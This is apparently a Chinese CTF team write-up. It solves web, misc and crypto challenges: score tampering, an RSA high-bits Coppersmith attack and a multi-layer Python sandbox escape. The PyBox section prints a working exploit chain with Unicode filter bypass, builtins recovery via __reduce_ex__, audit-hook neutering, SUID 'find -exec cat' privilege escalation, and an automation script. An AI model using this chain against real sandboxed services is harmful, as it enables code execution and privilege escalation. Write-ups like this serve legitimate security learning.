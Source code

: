 *全队4个人只有1题队 Wp*

# HDdss の Writeup



## Web

### GuessOneGuess

触发`punishment-response`时`totalScore -= data.score`，将本地改成负数再提交即可

触发`FLAG`时间~~听天由命~~

```javascript
 function f(){
  document.getElementById("score-display").textContent = -2e308
  document.getElementById("guess-input").value = 50;
  document.getElementById("guess-btn").click();
}
setInterval(f,0.01);
```

~~或者二分一下更快?~~

### PyBox

**第一层过滤**：

```python
badchars = "\"'|&`+-*/()[]{}_."
```

`Unicode`加密绕过

**第二层过滤**：

```python
'''print("{}")'''.format(POST_DATA)
```

双引号配对绕过：

```python
POST_DATA=");任意执行区域;print(任意输出区域,end="
```

**第三层过滤**：

```python
class SandboxVisitor(ast.NodeVisitor):
    forbidden_attrs = {
        "__class__", "__dict__", "__bases__",
        "__mro__", "__subclasses__", "__globals__",
        "__code__", "__closure__", "__func__",
        "__self__", "__module__", "__import__",
        "__builtins__", "__base__"
    }
def sandbox_executor(code, result_queue):
    safe_builtins = {
        "print": print,
        "filter": filter,
        "list": list,
        "len": len,
        "addaudithook": sys.addaudithook,
        "Exception": Exception
    }
```

用

```python
[].__reduce_ex__(3)[0].__getattribute__("__builtins__")
```

绕过

**第四层过滤**：

```python
def my_audit_checker(event, args): 
    allowed_events = ["import", "time.sleep", "builtins.input", "builtins.input/result"] 
    if not list(filter(lambda x: event == x, allowed_events)): 
        print("Err6or")
        raise Exception 
    if len(args) > 0: 
        print("Err7or")
        raise Exception 
addaudithook(my_audit_checker)
```

修改`builtins`函数绕过：

```python
len=lambda x:0
list=lambda x:[1]
```

**第五层绕过**：

`linux find`提权：

通过文件`entrypoint.sh`：

```sh
#!/bin/sh

echo $FLAG>/m1n1FL@G
echo "\nNext,let's tackle the more challenging misc/pyjail">>/m1n1FL@G
chmod 600 /m1n1FL@G
chown root:root /m1n1FL@G
chmod 4755 /usr/bin/find
useradd -m minilUser
export FLAG=""
chmod -R 777 /app
su minilUser -c "python /app/app.py"
```

可知`find`具有`root`权限

```shell
find 1 -exec cat /m1n1FL@G \;
```

最终`payload` `(Unicode加密前)`：

```
POST_DATA=");len=lambda x:0;list=lambda x:[1];print([].__reduce_ex__(3)[0].__getattribute__("__builtins__")["__import__"]("os").popen('find 1 -exec cat /m1n1FL@G \;').read(),end="
```

由于输出字母长度小于5：

自动化代码如下：

```python
import requests
def do(command):
    url = "http://127.0.0.1:51959/execute"
    num = 0
    while True:
        payload = (
            '");len=lambda x:0;list=lambda x:[1];'
            f'print([].__reduce_ex__(3)[0].__getattribute__'
            f'("__builtins__")["__import__"]("os").popen'
            f'(\'{command}\').read()[{num}],end="'
        )
        def convert_to_unicode(input_string):#Unicode-encode
            result = ""
            for ch in input_string:
                unicode_char = "\\u{:04x}".format(ord(ch))
                result += unicode_char
            return result
        data = {'text': convert_to_unicode(payload)}
        response = requests.post(url, data=data)
        if response.status_code != 200:
            continue
        char = response.text.strip()
        print(char, end='')
        if not char:
            print()
        result += char
        num += 1
do('find `which find` -exec cat /m1n1FL@G \;')
```





## Misc

### 吃豆人

修改分数为10000即可：

```javascript
score=10000
```



### 麦霸评分

上传原始音频即可：

```javascript
fetch("/original.wav")
  .then(response => response.blob())
  .then(blob => {
    window.stopRecording = function() {
      uploadRecording(blob);
    };
});
```







# Horrible の Writeup



## **babaisiginsigin**

很神秘的二进制

#### Lv.1

注意到构造两个数 `0b0101...0101` 和 `0b1010...1010` 之后，减掉对应的 1 位上带来的贡献，可以统计隔位相加的结果，避免考虑进位，进而可以解出 $x,y$

#### Lv2

注意到构造 `0b0000...0000` 可以获取 $x+y$ ，`0b1111...1111` 之后减掉或的结果 `0b111...111` 再取反可以获取 $y$ ，就能解出 $x,y$



## **rsasign**

很神秘的 RSA

没学过，直接去搜了已知高位攻击，了解到了知道 $p$ 一定高位之后就可以爆破 $p$

然后注意到题目泄露出的 $gift=(p+q+k)^2\bmod \rm phi$ 的高位，充分发扬人类智慧试了几组 $p,q$ 之后发现这货基本上是会被模掉 $4$ 个$\rm phi$ ，于是可以构建关于 $s=p+q$ 的二次方程：
$$
gf=gift<<740\\
s^2+(2k+4)s+(k^2-gf-4n-4)=0
$$
可以解出来 $s$ 的高位

配合 $n$ 可以搞出来 $p-q$ 的高位，进而搞出 $p$ 的高位

然后套一下网上的 $Coppersimith$ 攻击，（尝试了一些参数终于）调出来了

